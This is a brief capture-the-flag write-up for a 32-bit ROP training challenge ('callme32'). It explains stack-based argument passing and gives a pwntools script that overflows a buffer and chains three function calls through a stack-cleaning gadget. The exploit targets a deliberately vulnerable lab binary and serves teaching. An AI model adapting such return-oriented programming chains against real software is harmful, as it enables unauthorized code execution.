

just like [callme](../x86_64/callme.md), this cjhallenge involve calling three functions to obtain the flag

in x86_32, function take arguments from the stack instead of from registers, and each call require some way to clear the stack as the functions itself doesnt clear its arguments 




with ROPgadget providing a way to clear 3 dwords from the stack, and no pie exist, this challenge should be quite easy

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./callme32")

context.binary = exe
context.log_level = "debug"
context.arch = "i386"

script = '''
b*pwnme+95
b*callme_one+274
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    buffer=b"A"*0x2c
    clean=0x080484aa

    payload=flat(
        buffer,
        exe.sym["callme_one"],
        clean,
        0xdeadbeef,
        0xcafebabe,
        0xd00df00d,
        exe.sym["callme_two"],
        clean,
        0xdeadbeef,
        0xcafebabe,
        0xd00df00d,
        exe.sym["callme_three"],
        clean,
        0xdeadbeef,
        0xcafebabe,
        0xd00df00d,
    )

    r.recvuntil("> ")
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```